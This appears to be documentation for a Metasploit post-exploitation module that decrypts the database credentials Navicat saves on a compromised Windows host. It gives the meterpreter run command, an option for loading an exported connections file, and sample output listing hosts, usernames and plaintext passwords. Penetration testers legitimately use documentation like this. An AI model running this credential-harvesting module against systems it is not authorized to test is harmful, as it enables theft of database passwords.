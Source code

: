 ## Vulnerable Application

This module can decrypt the password of navicat, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-navicat-encrypt-password).

  You can find its official website [here](https://navicat.com/).

## Verification Steps

  1. Download the latest installer of Navicat.
  2. Use navicat to log in to DB server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/navicat```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

### NCX_PATH

Specify the path of the NCX export file. e.g.: connections.ncx

## Scenarios

```
meterpreter > run post/windows/gather/credentials/navicat 

*] Gathering Navicat password information from WIN-79MR8QJM50N 
Navicat Sessions 
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002233644_default_192.168.80.128_host.navicat_ses_919319.txt
[*] Post module execution completed
meterpreter > 
```

* Specify **NCX_PATH**

```
msf6 post(windows/gather/credentials/navicat) > set ncx_path C:\\Users\\FireEye\\Desktop\\connections.ncx
ncx_path => C:\Users\FireEye\Desktop\connections.ncx
msf6 post(windows/gather/credentials/navicat) > run

[*] Gathering Navicat password information from WIN-79MR8QJM50N
[*] Looking for C:\Users\FireEye\Desktop\connections.ncx
[+] navicat.ncx saved to /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_navicat.creds_838577.txt
Navicat Sessions
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_host.navicat_ses_522370.txt
[*] Finished processing C:\Users\FireEye\Desktop\connections.ncx
[*] Post module execution completed


```